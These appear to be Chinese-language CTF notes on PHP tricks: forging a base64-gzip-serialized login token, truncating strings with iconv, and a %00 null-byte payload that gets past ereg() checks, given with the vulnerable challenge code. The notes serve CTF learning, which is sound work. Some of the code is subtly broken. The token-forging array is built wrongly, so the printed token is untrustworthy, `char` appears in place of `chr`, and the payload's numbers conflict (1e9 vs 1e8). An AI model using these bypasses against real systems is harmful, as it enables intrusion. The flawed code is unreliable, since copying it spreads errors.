 


## 多重加密


题目中有：
```php
$login = unserialize(gzuncompress(base64_decode($requset['token'])));
if($login['user'] === 'ichunqiu'){echo $flag;}
```
本地则写：
```php
<?php
$arr = array(['user'] === 'ichunqiu');
$token = base64_encode(gzcompress(serialize($arr)));
print_r($token);
// 得到eJxLtDK0qs60MrBOAuJaAB5uBBQ=
?>
```

## 截断

### iconv 异常字符截断

```php
## 因iconv遇到异常字符就不转后面的内容了，所以可以截断。
## 这里chr(128)到chr(255)都可以截断。
$a='1'.char(130).'2';
echo iconv("UTF-8","gbk",$a); //将字符串的编码从UTF-8转到gbk
echo iconv('GB2312', 'UTF-8', $str); //将字符串的编码从GB2312转到UTF-8
```

### eregi、ereg可用%00截断

功能：正则匹配过滤
条件：要求php<5.3.4

```php
## http://127.0.0.1/Php_Bug/05.php?password=1e9%00*-*
#GET方式提交password，然后用ereg()正则限制了password的形式，只能是一个或者多个数字、大小写字母，继续strlen()限制了长度小于8并且大小必须大于9999999，继续strpos()对password进行匹配，必须含有-，最终才输出flag
#因为ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配。
#对于另一个难题可以使用科学计数法表示，计算器或电脑表达10的的幂是一般是e，也就是1.99714e13=19971400000000，所以构造 1e8 即 100000000 > 9999999，在加上-。于是乎构造password=1e8%00*-*,成功得到答案
<?php
if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$",$_GET['password']) === FALSE)    
       {
        echo '<p>You password must be alphanumeric</p>';
    }
    else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
    {
        if (strpos ($_GET['password'], '*-*') !== FALSE)
        {
            die('Flag: ' . $flag);
        }
        else
        {
            echo('<p>*-* have not been found</p>');
        }
    }
    else
    {
        echo '<p>Invalid password</p>';
    }
```